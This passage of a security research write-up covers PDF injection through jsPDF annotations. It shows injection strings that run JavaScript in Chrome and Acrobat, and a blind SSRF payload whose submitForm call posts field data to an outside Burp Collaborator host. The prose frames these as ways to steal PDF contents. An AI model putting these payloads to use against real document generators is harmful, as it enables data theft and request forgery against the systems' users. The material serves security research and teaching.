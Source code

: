 I was pretty pleased with myself that I could steal the contents of the PDF on Chrome as I never thought this would be possible. Combining this with the submitForm vector would enable you to send the data to an external server. The only downside is that it requires a click. I wondered if you could get JavaScript execution without a click on Chrome. Looking at the PDF specification again, I noticed that there is another entry in the annotation dictionary called "E", which will execute the annotation when the mouse enters the annotation area - basically a mouseover event. Unfortunately, this does not count as user interaction to enable a form submission. So although you can execute JavaScript, you can't do anything with the data because you can't send it to an external server. If you can get Chrome to submit data with this event, please let me know because I'd be very interested to hear how. Anyway, here is the code to trigger a mouseover acton:`var doc = new jsPDF();`\
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`/) >> >>``\
``<</Type /Annot /Subtype /Widget /Parent<</FT/Btn/T(a)>> /Rect [0 0 900 900] /AA <</E <</S/JavaScript/JS(app.alert(1))>>/(`});``\
`doc.text(20, 20, 'Test');`\
``

### SSRF in PDFium/Acrobat

It's possible to send a POST request with PDFium/Acrobat to perform a SSRF attack. This would be a [blind SSRF](https://portswigger.net/web-security/ssrf/blind) since you can make a POST request but can't read the response. To construct a POST request, you can use the /parent dictionary key as demonstrated earlier to assign a form element to the annotation, enabling JavaScript execution. But instead of using a button like we did before, you can assign a text field (/Tx) with the parameter name (/T) and parameter value (/V) dictionary keys. Notice how you have to pass the parameter names you want to use to the submitForm function as an array:`#)>>>><</Type/Annot/Rect[ 0 0 900 900]/Subtype/Widget/Parent<</FT/Tx/T(foo)/V(bar)>>/A<</S/JavaScript/JS(`\
`app.alert(1);`\
`this.submitForm('https://aiws4u6uubgfdag94xvc5wbrfilc91.burpcollaborator.net', false, false, ['foo']);`\
`)/(`\
``

You can even send raw new lines, which could be useful when chaining other attacks such as [request smuggling](https://portswigger.net/web-security/request-smuggling). The result of the POST request can be seen in the following Collaborator request:

![Screen shot showing a Burp Collaborator request from a PDF](https://portswigger.net/cms/images/3f/61/fd38-article-ssrf-screenshot.png)

Finally, I want to finish with a hybrid Chrome and Acrobat PDF injection. The first part injects JavaScript into the existing annotation to execute JavaScript on Acrobat. The second part breaks out of the annotation and injects a new annotation that defines a new clickable area for Chrome. I use the Acroform trick again to inject a button so that the JavaScript will execute: `var doc = new jsPDF();`\
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`#)/S/JavaScript/JS(app.alert(1))/Type/Action>> >> <</Type/Annot/Rect[0 0 900 700]/Subtype/Widget/Parent<</FT/Btn/T(a)>>/A<</S/JavaScript/JS(app.alert(1)`});``\
`doc.text(20, 20, 'Click me Acrobat');`\
`doc.text(20, 60, 'Click me Chrome');`


<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>


